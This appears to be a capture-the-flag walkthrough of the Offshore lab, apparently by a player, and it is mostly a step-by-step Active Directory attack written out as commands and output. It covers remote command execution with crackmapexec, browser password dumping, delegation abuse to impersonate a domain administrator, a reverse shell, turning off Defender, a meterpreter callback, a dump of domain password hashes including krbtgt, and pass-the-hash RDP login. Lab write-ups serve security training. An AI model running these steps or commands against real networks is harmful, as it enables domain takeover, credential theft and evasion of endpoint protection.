

We can grab the flag on WS03 pretty easily with joe's credentials
└─$ crackmapexec smb 172.16.2.102 -u joe -p '' -x 'type c:\users\administrator\desktop\flag.txt'
SMB 172.16.2.102 445 WS03 [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:WS03) (domain:dev.ADMIN.OFFSHORE.COM) (signing:False) (SMBv1:True)
SMB 172.16.2.102 445 WS03 [+] dev.ADMIN.OFFSHORE.COM\joe: (Pwn3d!)
SMB 172.16.2.102 445 WS03 [+] Executed command
SMB 172.16.2.102 445 WS03 OFFSHORE{ACL_@bus3_0ft3n_ov3rl00k3d}
If we run LaZagne on this machine, we see there is a second flag
OFFSHORE{d0nt_s@ve_p@ssw0rds_1n_br0ws3rs!}
There is something in the run history I notice when going to type a command
I copy this goMonitor just in case it's useful later
We can see joe has GenericWrite on DC02 in Bloodhound and it suggests abusing this by creating a new machine with Powermad
Make our cred token with joe and his blank password then create the new machine with that
PS C:\temp> $username = 'dev\joe'
$password = [System.Security.SecureString]::new()
$cred = [System.Management.Automation.PSCredential]::new($username, $password)
PS C:\temp> New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString 'password123!' -AsPlainText -Force) -Domain dev.admin.offshore.com -DomainController 172.16.2.6 -credential $cred
[+] Machine account fake01 added
We then launch Powershell with the machine's creds
runas /netonly /user:DEV.ADMIN.OFFSHORE.COM\fake01$ powershell
Check and makesure that the target computer doest not have the attribute msds-allowedtoactonbehalfofotheridentity enabled
PS C:\temp> Get-DomainComputer DC02 -domain dev.admin.offshore.com -server 172.16.2.6 | select name, msds-allowedtoactonbehaldofotheridentity
name msds-allowedtoactonbehaldofotheridentity
---- ----------------------------------------
DC02
Get the SID of the fake computer account we created
PS C:\temp> Get-DomainComputer -Domain dev.admin.offshore.com fake01 -Properties objectsid | select -Expand objectsid
S-1-5-21-1416445593-394318334-2645530166-11101
What we need for the attack:
Target Computer Name: DC02
Admin on Target Computer: administrator
Fake Computer Name: fake01
Fake Computer SID: S-1-5-21-1416445593-394318334-2645530166-11101
Fkae Computer Pass: password123!
$ComputerSid = Get-DomainComputer -Domain dev.admin.offshore.com fake01 -Properties objectsid | select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
$username = 'dev\joe'
$password = [System.Security.SecureString]::new()
$cred = [System.Management.Automation.PSCredential]::new($username, $password)
Get-DomainComputer dc02.dev.admin.offshore.com -Domain dev.admin.offshore.com -server 172.16.2.6 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Domain dev.admin.offshore.com -server 172.16.2.6 -credential $cred -verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://172.16.2.6/DC=dev,DC=admin,DC=offshore,DC=com
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(distinguishedname=CN=DC02,OU=Domain Controllers,DC=dev,DC=ADMIN,DC=OFFSHORE,DC=COM)))
VERBOSE: [Set-DomainObject] Setting 'msds-allowedtoactonbehalfofotheridentity' to '1 0 4 128 20 0 0 0 0 0 0 0 0 0 0 0 36 0 0 0 1 2 0 0 0 0 0 5 32 0 0 0 32 2 0 0 2 0 44 0 1 0 0 0 0 0 36 0 255 1 15 0 1 5 0 0 0 0 0 5 21 0 0 0 15
3 62 109 84 254 209 128 23 54 150 175 157 93 43 0 0' for object 'DC02$'
Get the password hash with Rubeus:
PS C:\temp> .\Rubeus.exe hash /password:password123!
______ _
(_____ \ | |
_____) )_ _| |__ _____ _ _ ___
| __ /| | | | _ \| ___ | | | |/___)
| | \ \| |_| | |_) ) ____| |_| |___ |
|_| |_|____/|____/|_____)____/(___/
v2.2.0
[*] Action: Calculate Password Hash(es)
[*] Input password : password123!
[*] rc4_hmac : 8119935C5F7FA5F57135620C8073AACA
Use Rubeus s4u to impersonate:
.\Rubeus.exe s4u /user:fake01$ /rc4:8119935C5F7FA5F57135620C8073AACA /impersonateuser:administrator /msdsspn:cifs/dc02.dev.admin.offshore.com /ptt /domain:dev.admin.offshore.com /dc:172.16.2.6
Check if it worked
PS C:\temp> dir \\dc02.dev.admin.offshore.com\c$
Directory: \\dc02.dev.admin.offshore.com\c$
Mode LastWriteTime Length Name
---- ------------- ------ ----
d----- 2/3/2020 11:34 AM PerfLogs
d-r--- 4/20/2022 8:57 AM Program Files
d----- 2/3/2020 11:03 AM Program Files (x86)
d-r--- 7/16/2018 11:22 PM Users
d----- 5/2/2023 4:27 PM Windows
Now we should be able to psexec into DC02
Stabilize with RCAT
└─$ ./rcat listen 10.10.16.94 4444
Listening on 10.10.16.94:4444
[+] Connection from 10.10.110.3:35548
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.
PS C:\temp> hostname
hostname
DC02
PS C:\temp>
Turn off Defender so we can upload a msfvenom payload
Set-MpPreference -DisableRealtimeMonitoring $true
Upload a msfvenom payload, setup the listener, connect, and hashdump
└─$ msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.16.94
LHOST => 10.10.16.94
msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.16.94:5555
[*] Sending stage (200774 bytes) to 10.10.110.3
[*] Meterpreter session 1 opened (10.10.16.94:5555 -> 10.10.110.3:52974) at 2023-05-02 19:40:47 -0400
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c61f43b6a4db2676714713836b7d2ea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9404def404bc198fd9830a3483869e78:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
IIS_dev:1105:aad3b435b51404eeaad3b435b51404ee:ce18f9730484ed029749730e2f82b147:::
joe:1604:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
agent:11102:aad3b435b51404eeaad3b435b51404ee:8119935c5f7fa5f57135620c8073aaca:::
DC02$:1000:aad3b435b51404eeaad3b435b51404ee:f76ed24090d10a19c5c47075fd6c573a:::
WS03$:1104:aad3b435b51404eeaad3b435b51404ee:9c8796117bf0750805e6989f98fcc4fe:::
fake01$:11101:aad3b435b51404eeaad3b435b51404ee:8119935c5f7fa5f57135620c8073aaca:::
ADMIN$:1103:aad3b435b51404eeaad3b435b51404ee:65f7c67d85f612570b9a64640689e9aa:::
CORP$:1109:aad3b435b51404eeaad3b435b51404ee:c86ea43a257d5548e5c952246d7bfefd:::
Check our administrator hash just to be sure

Also change this registry key so we can login with the hash
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
RDP in
└─$ xfreerdp /v:172.16.2.6 /u:administrator /pth:'c61f43b6a4db2676714713836b7d2ea6'